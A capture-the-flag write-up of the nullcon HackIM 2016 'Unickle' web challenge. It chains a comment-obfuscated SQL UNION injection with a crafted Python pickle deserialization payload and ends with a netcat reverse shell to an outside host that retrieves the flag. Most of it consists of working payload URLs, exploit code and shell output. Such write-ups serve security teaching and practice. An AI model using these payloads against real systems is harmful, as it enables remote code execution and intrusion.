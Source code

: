 # nullcon HackIM : Unickle

**Category:** Web
**Points:** 200
**Solves:**
**Description:**

> OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!
>
>
> <http://54.84.124.93/>

[Server files](./var/www)

## Write-up

by d1rt

Immediately on visiting the target URL you're greeted with a list of "objects", each has an id.

`http://54.84.124.93/?cat=1`

The `cat` param is a sql injection opportunity

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,3,4--`

This injection leads to a Python error being printed on the final row of the output table in the 3rd field.

`1    2    'int' object has no attribute 'encode'  4`

This means we now control a payload that is being passed to Python for execution, based on the output of other fields and hints in intro, it's a Python object injection flaw.  Now we craft our injected object.

```
#!/usr/bin/python2

import pickle
import os

class Inject(object):
    def __reduce__(self):
        return (os.system, ('/bin/ls',))

print pickle.dumps(Inject())
```

Confirm it works

```
$ ./makepickle.py
cposix
system
p0
(S'/bin/ls'
p1
tp2
Rp3
.
```

Not sqli friend, need to change out those new lines

```
$ ./makepickle.py | awk '{printf $1"%0a"}'
cposix%0asystem%0ap0%0a(S'/bin/ls'%0ap1%0atp2%0aRp3%0a.%0a
```

Now use it in the injection

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,%27cposix%0asystem%0ap0%0a(S'/bin/ls'%0ap1%0atp2%0aRp3%0a.%0a%27,4--`

We have a functional injection, but not the value we'd expected

`1    2   512  4`

We then use the injection to trigger a reverse shell using netcat

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,%27cposix%0asystem%0ap0%0a(S'/bin/nc -e/bin/bash 1.3.3.7 31337'%0ap1%0atp2%0aRp3%0a.%0a%27,4--`

```
$nc -vvv -l -p 31337
Listening on any address 31337
Connection from 54.84.124.93:47281
find / -name 'flag'
/var/www/flag
cat /var/www/flag
flag{OSaaS_with_union_and_tickle_trend_it_is!}
```


## Other write-ups and resources

* <https://github.com/bl4de/ctf/blob/master/2016/HackIM_2016/Unicle_Web200/Unicle_Web200_writeup.md>
* <http://losfuzzys.github.io/writeup/2016/02/02/hackim2016-unickle200/>
